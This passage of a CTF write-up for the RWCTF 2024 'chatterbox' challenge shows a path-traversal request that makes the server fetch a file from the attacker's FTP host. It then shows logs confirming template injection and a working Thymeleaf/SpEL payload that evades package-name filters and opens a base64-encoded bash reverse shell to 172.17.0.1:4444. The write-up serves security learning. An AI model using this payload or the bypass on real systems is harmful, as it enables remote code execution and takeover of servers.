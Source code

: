 ```
$ curl 'http://172.17.0.2:8080/notify?fname=..%5c..%5c172.17.0.1/payload' -H 'Cookie: JSESSIONID=6FA5A7A9F393356B15FD4201921AD1DD'
^C
$ fg
sudo python3 -m pyftpdlib -p 21
[I 2024-01-28 15:18:48] 172.17.0.2:42478-[] FTP session opened (connect)
[I 2024-01-28 15:18:48] 172.17.0.2:42478-[anonymous] USER 'anonymous' logged in.
[I 2024-01-28 15:18:48] 172.17.0.2:42478-[anonymous] RETR /home/vm/Downloads/rwctf2024/chatterbox/attachment/payload.html completed=1 bytes=8 seconds=0.004
[I 2024-01-28 15:18:48] 172.17.0.2:42486-[] FTP session opened (connect)
[I 2024-01-28 15:18:48] 172.17.0.2:42486-[anonymous] USER 'anonymous' logged in.
[I 2024-01-28 15:18:48] 172.17.0.2:42486-[anonymous] RETR /home/vm/Downloads/rwctf2024/chatterbox/attachment/payload.html completed=1 bytes=8 seconds=0.001
[I 2024-01-28 15:18:48] 172.17.0.2:42486-[anonymous] FTP session closed (disconnect).
^C[I 2024-01-28 15:18:55] received interrupt signal
[I 2024-01-28 15:18:55] >>> shutting down FTP server, 2 socket(s), pid=30954 <<<
[I 2024-01-28 15:18:55] 172.17.0.2:42478-[anonymous] FTP session closed (disconnect).
```

In service logs we see:
```
2024-01-28T14:18:48.312Z ERROR 67 --- [nio-8080-exec-4] o.a.c.c.C.[.[.[/].[dispatcherServlet]    : Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed: org.thymeleaf.exceptions.TemplateInputException: Error resolving template [81
], template might not exist or might not be accessible by any of the configured Template Resolvers] with root cause

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [81
], template might not exist or might not be accessible by any of the configured Template Resolvers
	at org.thymeleaf.engine.TemplateManager.resolveTemplate(TemplateManager.java:869) ~[thymeleaf-3.1.2.RELEASE.jar!/:3.1.2.RELEASE]
```

The `Error resolving template [81` confirms SSTI.

## 3rd stage - getting the correct payload

At this point, we haven't managed to find the correct payload which would give us a way to obtain a shell. 

This was our working payload changed from one of the participants approach:
```
[[${T(org.thymeleaf.util.ClassLoaderUtils).loadClass('org.apa'+'che.logging.log4j.util.LoaderUtil').newInstanceOf('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser').parseExpression('T(java.lang.Runtime).getRuntime().exec("bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNy4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}")').getValue()}]]
```

Breakdown of the payload:
- load `LoaderUtil` via Thymeleaf's `ClassLoaderUtils`
- use `LoaderUtil` to instantiate our own instance of `SpelExpressionParser`
- provide malicious expression to our own instance of `SpelExpressionParser`
  - execute bash command via `Runtime.getRuntime().exec()`
  - base64 encoded bash command is a bash reverse shell towards 172.17.0.1:4444
- the concatenation of strings was used to bypass checks for `org.spring` and `org.apache`, but we've confirmed that a simple space in between also bypasses those checks
